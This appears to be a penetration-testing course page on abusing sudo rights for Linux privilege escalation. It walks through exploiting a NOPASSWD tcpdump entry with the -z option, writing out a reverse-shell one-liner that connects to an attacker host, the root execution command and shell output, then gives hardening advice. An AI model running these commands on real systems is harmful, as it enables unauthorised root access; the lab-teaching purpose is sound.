 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
  metadata:
    visible: true
---
```


# Sudo Rights Abuse

Sudo privileges can be granted to an account, permitting the account to run certain commands in the context of the root (or another account) without having to change users or grant excessive privileges. When the `sudo` command is issued, the system will check if the user issuing the command has the appropriate rights, as configured in `/etc/sudoers`.

When landing on a system, we should always check to see if the current user has any sudo privileges by typing `sudo -l`. Sometimes we will need to know the user's password to list their `sudo` rights, but any rights entries with the `NOPASSWD` option can be seen without entering a password.

{% code title="Command" %}
```bash
sudo -l
```
{% endcode %}

{% code title="Example Output" %}
```bash
Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```
{% endcode %}

It is easy to misconfigure this. For example, a user may be granted root-level permissions without requiring a password. Or the permitted command line might be specified too loosely, allowing us to run a program in an unintended way, resulting in privilege escalation. In this example, if the sudoers file is edited to grant a user the right to run a command such as `tcpdump` per the following entry in the sudoers file: `(ALL) NOPASSWD: /usr/sbin/tcpdump` an attacker could leverage this to take advantage of a the **postrotate-command** option.

{% code overflow="wrap" %}
```shell-session
user@target:~$ man tcpdump

<SNIP> 
-z postrotate-command              

Used in conjunction with the -C or -G options, this will make `tcpdump` run " postrotate-command file " where the file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip2 will compress each savefile using gzip or bzip2.
```
{% endcode %}

By specifying the `-z` flag, an attacker could use `tcpdump` to execute a shell script, gain a reverse shell as the root user or run other privileged commands. For example, an attacker could create the shell script `.test` containing a reverse shell and execute it as follows:

```bash
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

First, make a file to execute with the `postrotate-command`, adding a simple reverse shell one-liner.

{% code title="Command" %}
```bash
cat /tmp/.test
```
{% endcode %}

<pre class="language-bash" data-title="Example Output"><code class="lang-bash"><strong>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&#x26;1|nc 10.10.14.3 443 >/tmp/f
</strong></code></pre>

Next, start a `netcat` listener on our attacking box and run `tcpdump` as root with the `postrotate-command`. If all goes to plan, we will receive a root reverse shell connection.

{% code title="Command" %}
```bash
sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```
{% endcode %}

{% code title="Example Output" %}
```bash
dropped privs to root
tcpdump: listening on ens192, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
6 packets received by filter
compress_savefile: execlp(/tmp/.test, /dev/null) failed: Permission denied
0 packets dropped by kernel
```
{% endcode %}

We receive a root shell almost instantly.

```shell-session
attacker@machine[/]$ nc -lnvp 443

listening on [any] 443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.2.12] 38938
bash: cannot set terminal process group (10797): Inappropriate ioctl for device
bash: no job control in this shell

root@target:~# id && hostname               
id && hostname
uid=0(root) gid=0(root) groups=0(root)
NIX02
```

[AppArmor](https://wiki.ubuntu.com/AppArmor) in more recent distributions has predefined the commands used with the `postrotate-command`, effectively preventing command execution. Two best practices that should always be considered when provisioning `sudo` rights:

* Always specify the absolute path to any binaries listed in the `sudoers` file entry. Otherwise, an attacker may be able to leverage PATH abuse (which we will see in the next section) to create a malicious binary that will be executed when the command runs (i.e., if the `sudoers` entry specifies `cat` instead of `/bin/cat` this could likely be abused).
* Grant `sudo` rights sparingly and based on the principle of least privilege. Does the user need full `sudo` rights? Can they still perform their job with one or two entries in the `sudoers` file? Limiting the privileged command that a user can run will greatly reduce the likelihood of successful privilege escalation.
